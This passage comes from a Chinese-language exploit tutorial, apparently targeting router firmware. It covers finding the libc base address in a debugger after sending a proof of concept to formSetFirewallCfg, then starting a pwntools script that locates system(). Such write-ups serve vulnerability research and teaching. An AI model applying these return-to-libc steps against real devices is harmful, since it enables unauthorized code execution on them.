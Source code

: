 
#### 3\. 寻找 libc 基址

在函数 formSetFirewallCfg 入口打个断点，continuing 运行程序，发送上文中的 poc，停到断点处

[![](assets/1706958084-3088adeecbe83e7d1287614c20dbe9c4.png)](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706713212378-8a9c2693-2948-45d7-9dc0-7eb418d1ae0d.png)

vmmap 指令打印内存信息，看到没有 libc，猜测<explored>这里就是 libc，后续测试证明的确是。libc 地址为 0xff58c000</explored>

```plain
libc_base_addr=0xff58c000
```

[![](assets/1706958084-805b8aaf727610b17afdccb60f961056.png)](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706713418828-289e6240-6225-4604-8ae3-9f8037798ed6.png)

#### 4\. 计算 libc 中 system 函数地址

```plain
from pwn import *

libc = ELF("./lib/libc.so.0")
system_offset = libc.symbols["system"]
```
